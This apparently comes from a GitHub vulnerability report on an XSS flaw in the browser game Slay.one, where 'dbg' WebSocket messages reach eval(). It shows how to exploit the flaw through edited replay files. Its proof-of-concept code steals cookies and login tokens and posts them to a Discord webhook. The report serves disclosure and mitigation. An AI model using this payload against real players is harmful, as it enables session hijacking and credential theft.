 
<div align="center">
  <img src="./logo.png" alt="Logo" />
</div>

# Exploit Report 'dbg' 
---
## Introduction 
[Slay.one](https://slay.one) is a popular web-based, top-down pixel shooter game. Despite its engaging gameplay, it suffers from a serious vulnerability that exposes users to cross-site scripting (XSS) attacks. This report outlines the nature of the vulnerability, how it can be exploited, and recommendations for mitigating the risk.

## Proof of Concept (PoC)
The vulnerability resides in the `client-bundle.js` file, specifically in the code responsible for processing WebSocket messages from the server. The problematic section of code is as follows:

```javascript
else if ("dbg" === arr[0]) // 'dbg' packet sent from the server
    try {
        eval(msg.substring(4)); // eval() allows arbitrary code execution
    } catch (e) {}
```

Here, the use of `eval()` poses a critical security risk, as it allows the execution of arbitrary JavaScript code passed within WebSocket messages.

### Exploitation
Attackers can exploit this vulnerability using Slay.one's replay feature, which lets users download and upload game replays. A replay file can be modified to include malicious code that executes in the victim’s browser when the file is uploaded and viewed.

### Proof of Concept Code
The following example demonstrates how an attacker could edit a replay file to exploit this vulnerability. When the replay is loaded, the malicious code steals the user’s cookies and authentication tokens, sending them to a Discord webhook.

#### Malicious Code Example
```javascript
dbg$fetch('https://discord.com/api/webhooks/{webhookID}/{webhookToken}', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({
        content: 'Stolen Cookies: ' + document.cookie + 
                 ' Login Token: ' + localStorage.autologin
    })
});
```

### Potential Effects
Exploiting this vulnerability allows attackers to:
- **Hijack user sessions**: Stolen cookies can be used to impersonate users.
- **Steal sensitive information**: Attackers can access authentication tokens stored in `localStorage`.
- **Execute arbitrary code**: This can lead to additional compromises, including malware delivery or unauthorized actions.

## Recommendations for Mitigation
To address this vulnerability and improve overall security, the following measures are recommended:

- **Eliminate `eval()` usage**: 
- **Validate and sanitize inputs**
- **Implement Content Security Policy (CSP)**
- **Enhance WebSocket security**: 

---

By implementing these measures, Slay.one can significantly reduce the risk of XSS attacks, providing a safer and more secure experience for its players.
